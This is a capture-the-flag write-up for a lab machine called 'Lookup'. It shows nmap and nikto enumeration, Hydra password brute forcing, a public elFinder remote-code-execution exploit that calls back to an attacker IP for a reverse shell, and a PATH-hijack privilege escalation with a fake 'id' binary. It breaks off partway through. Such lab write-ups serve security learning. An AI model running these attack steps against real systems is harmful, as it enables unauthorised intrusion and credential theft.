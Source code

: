 # Enumeration
This CTF seems to use domains so I already went ahead and added the domain `lookup.thm` to my `/etc/hosts` file
## Nmap
Time to see what ports are Open on the machine...
```bash
$ cat nmap-initial 
# Nmap 7.94SVN scan initiated Tue Apr 22 16:08:15 2025 as: nmap -oN nmap-initial lookup.thm
Nmap scan report for lookup.thm (10.10.198.178)
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

seems to be a basic setup with http and ssh running. Let's do some further scanning before we check the http server out.

```bash
$ nmap -A lookup.thm -oN nmap-Agressive
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-22 17:43 CEST
Nmap scan report for lookup.thm (10.10.208.157)
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page

..Snip..(OS Scan failed)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   37.74 ms 10.21.0.1
2   38.01 ms lookup.thm (10.10.208.157)
```

The Aggressive scan revealed that Apache is outdated and in The Traceroute we can see another server lets check this one out two

```bash
$ nmap 10.21.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-23 14:44 CEST
Nmap scan report for 10.21.0.1
Host is up (0.039s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
```

This was a shot in the dark lets have a look at the HTTP server
## Apache HTTP server
upon Opening the Website we get a login screen when we try to login we make a post request to `/login.php` 
![[Pasted image 20250423145014.png]]
### Fuzzing
Decided to do some Fuzzing but had no luck did a Directory scan which returned the login.php site and a Subdomain(Vhost) scan which revealed nothing
### Nikto
at this point I was kind of clueless so I just ran nikto on it to see what happens
```bash
$ nikto -host lookup.thm
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.208.157
+ Target Hostname:    lookup.thm
+ Target Port:        80
+ Start Time:         2025-04-22 18:18:07 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /login.php: Admin login page/section found.
+ 7962 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2025-04-22 18:23:51 (GMT2) (344 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

seems to me that this is just a generic website with a login page My only option is to bruteforce the login window so lets go ahead and do that...

# Vulnerability Assessment
I did some testing with the login page trying to see how it works doing that I found out that the admin user exists on the system and we only need to find out his password

When we try with a trash user we get `Wrong username or password` as the output
![[Pasted image 20250423145755.png]]

When using the admin user we only get `Wrong password` which indicates that the password request are being handled insecurely 
![[Pasted image 20250423145852.png]]

# Exploitation
## Hydra
```bash
$ hydra -l admin -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt http-post-form://lookup.thm"/login.php:username=^USER^&password=^PASS^:F=Wrong password. Please try again."
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-23 15:06:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000000 login tries (l:1/p:1000000), ~62500 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:F=Wrong password. Please try again.
[80][http-post-form] host: lookup.thm   login: admin   password: password123
```

when we try to use the password and username we get a new error
![[Pasted image 20250423151547.png]]

that's kinda weird, maybe we need to find another username.
```bash
$ hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p password123 http-post-form://lookup.thm"/login.php:username=^USER^&password=^PASS^:F=Wrong username or password. Please try again."

..Snip..

[80][http-post-form] host: lookup.thm   login: jose   password: password123
```

Now we can finally login!
## elFinder
Upon Logging in We get greeted with a bunch of files that contain what I think is password's But I didn't care too much about that as the version seems to be outdated and there is a public exploit available at [GitHub](https://github.com/hadrian3689/elFinder_2.1.47_php_connector_rce/tree/main) 
![[Pasted image 20250424182331.png]]

After Downloading the Exploit all I had to do is run it
```bash
python3 exploit.py -t http://files.lookup.thm/elFinder/ -lh 10.21.21.101 -lp 1337
```

We get a shell as www-data
```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.21.21.101] from (UNKNOWN) [10.10.164.72] 55534
bash: cannot set terminal process group (708): Inappropriate ioctl for device
bash: no job control in this shell
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ 
```

*After that I took a peek at someone else's writeup because im not too good with privesc yet*

I found the File `/usr/sbin/pwm` which is owned by root when we run it we get
```bash
$ /usr/sbin/pwm                
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

the code is encoded so we wont be able to easily change it so we somehow have to manipulate the ID so that the script thinks were the think user
```bash
# The /usr/sbin/pwm command checks in each directory of $PATH to see if there is a id command present 
# If we edit the $PATH variable to have /tmp(or any other directory we have access to) at the beginning then the /usr/sbin/pwm command will first check the /tmp directory for an id file present in there and try to execute it so when we edit the file to return the think user instead of www-data the script will think that we are think 
$ cd /tmp
$ echo $PATH                
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
$ export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
$ echo "echo 'uid=33(think) gid=33(think) groups=33(think)'" > id
$ chmod +x ./id
$ id
uid=33(think) gid=33(think) groups=33(think)
$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
..Snip..
```

funny enough that the output we get looks like a wordlist lets try to use it as one
